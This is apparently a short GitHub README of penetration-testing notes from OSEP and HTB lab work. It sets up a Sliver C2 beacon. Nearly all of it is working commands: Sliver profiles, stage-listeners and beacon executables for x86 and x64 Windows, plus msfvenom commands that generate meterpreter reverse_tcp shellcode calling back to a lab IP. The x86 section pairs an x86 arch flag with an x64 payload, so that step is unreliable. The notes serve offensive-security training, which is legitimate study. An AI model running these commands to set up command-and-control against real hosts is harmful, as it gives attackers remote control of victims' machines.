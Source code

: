 # Basic Sliver Beacon
Setup basic stager and listener on Sliver C2

## References
All content for Sliver shell code runner from https://github.com/beauknowstech/OSEP-Everything/tree/main/AMSI

## Setup for x86 windows host
```bash
# Setup profile for staged payload with arch type as x86
sliver > profiles new --http 192.168.200.43:80 --format shellcode --arch 386 local86

# Start stage-listener x86 profile
sliver > stage-listener --url tcp://192.168.200.43:8086 --profile local86

# Start Listener
sliver > http -L 192.168.200.43 -l 80

# generate a generic (stageless) payload
sliver > generate --http 192.168.200.43:80 --arch 386 --save . --name http-beacon-86.exe

# create initial staged payload with msfvenom pointing to stage-listener IP/Port for x86
┌──(kali㉿kali)-[~/Desktop/SliverC2-HTB]
└─$ msfvenom --platform windows --arch x86 --format csharp --payload windows/x64/meterpreter/reverse_tcp LHOST=192.168.200.43 LPORT=8086 EXITFUNC=thread
```

## Setup for x64 windows host
```bash
# Setup profile for staged payload with arch type as x64
sliver > profiles new --http 192.168.200.43:80 --format shellcode local64

# Start stage-listener 
sliver > stage-listener --url tcp://192.168.200.43:8064 --profile local64

# Start Listener
sliver > http -L 192.168.200.43 -l 80

# generate a generic (stageless) payload
sliver > generate --http 192.168.200.43:80 --save . --name http-beacon.exe

# create initial staged payload with msfvenom pointing to stage-listener IP/Port for x64
┌──(kali㉿kali)-[~/Desktop/SliverC2-HTB]
└─$ msfvenom --platform windows --arch x64 --format csharp --payload windows/x64/meterpreter/reverse_tcp LHOST=192.168.200.43 LPORT=8064 EXITFUNC=thread
```
